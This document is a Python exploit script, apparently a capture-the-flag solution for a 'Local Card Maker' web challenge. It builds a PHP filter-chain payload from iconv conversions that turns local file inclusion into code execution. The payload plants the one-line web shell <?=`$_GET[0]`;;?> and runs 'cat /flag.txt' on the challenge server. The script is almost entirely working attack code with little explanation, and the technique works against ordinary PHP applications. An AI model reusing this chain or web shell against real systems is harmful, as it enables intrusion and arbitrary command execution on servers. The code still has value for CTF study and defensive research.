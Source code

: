 ```python
    'f': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L7.SHIFTJISX0213',
    's': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L3.T.61',
    'z': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L7.NAPLPS',
    'U': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.CP1133.IBM932',
    'P': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.857.SHIFTJISX0213',
    'V': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.851.BIG5',
    '0': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.1046.UCS2',
    'Y': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.ISO-IR-111.UCS2',
    'W': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.851.UTF8|convert.iconv.L7.UCS2',
    'd': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.ISO-IR-111.UJIS|convert.iconv.852.UCS2',
    'D': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.SJIS.GBK|convert.iconv.L10.UCS2',
    '7': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.EUCTW|convert.iconv.L4.UTF8|convert.iconv.866.UCS2',
    '4': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.EUCTW|convert.iconv.L4.UTF8|convert.iconv.IEC_P271.UCS2'
}

# Simple but does the trick
command = "cat /flag.txt"

#<?=`$_GET[0]`;;?>
base64_payload = "PD89YCRfR0VUWzBdYDs7Pz4"

# generate some garbage base64
filters = "convert.iconv.UTF8.CSISO2022KR|"
filters += "convert.base64-encode|"
# make sure to get rid of any equal signs in both the string we just generated and the rest of the file
filters += "convert.iconv.UTF8.UTF7|"

for c in base64_payload[::-1]:
        filters += conversions[c] + "|"
        # decode and reencode to get rid of everything that isn't valid base64
        filters += "convert.base64-decode|"
        filters += "convert.base64-encode|"
        # get rid of equal signs
        filters += "convert.iconv.UTF8.UTF7|"

filters += "convert.base64-decode"
file_to_use = "index"

final_payload = f"php://filter/{filters}/resource={file_to_use}".encode()

# "Local Card Maker"-specific implementation starts here:

key_salt = b"Thcon_SuP3r_S3cr4t_K3y!"
buf = base64.encodebytes(final_payload).replace(b"\n", b"")
buf_hash = (hashlib.sha1(key_salt + buf).hexdigest())
buf = buf.decode()

print(requests.get("http://challenges1.thcon.party:2001/index.php?page=%s&pHash=%s&0=%s" % (buf, buf_hash, command)).content)
```
